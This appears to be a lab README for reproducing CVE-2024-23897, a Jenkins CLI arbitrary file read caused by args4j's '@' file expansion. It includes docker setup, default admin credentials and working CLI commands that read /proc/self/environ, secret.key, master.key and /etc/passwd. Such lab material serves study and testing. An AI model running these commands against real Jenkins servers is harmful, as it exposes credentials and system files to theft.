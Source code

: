 # Jenkins Arbitrary File Read Vulnerability Through the CLI (CVE-2024-23897)

[中文版本(Chinese version)](README.zh-cn.md)

Jenkins is an open source automation server.

Jenkins uses the [args4j library](https://github.com/kohsuke/args4j) to parse command arguments and options on the Jenkins controller when processing CLI commands. This command parser has a feature that replaces an `@` character followed by a file path in an argument with the file’s contents (expandAtFiles), which leads attackers to read arbitrary files from Jenkins server.

This vulnerability affects Jenkins prior to 2.441.

References:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## Vulnerable Environment

Execute following command to start a Jenkins server 2.441:

```
docker compose up -d
```

You can access the Jenkins server through `http://your-ip:8080/` after the server is started. Default administrator's username and password are `admin` and `vulhub`.

## Exploit

First, you should download the command-line client `jenkins-cli.jar` by `http://localhost:8080/jnlpJars/jenkins-cli.jar`.

Read the file `/proc/self/environ` to get the Jenkins base directory, `JENKINS_HOME=/var/jenkins_home`:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![](1.png)

Then, you can use it to retrieve sensitive files such as `secrets.key` or `master.key` (anonymously, only the first line of the file can be read via an error on the command line):

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

Because the "Allow anonymous read access" is turned on, you can also read the full content of a file:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
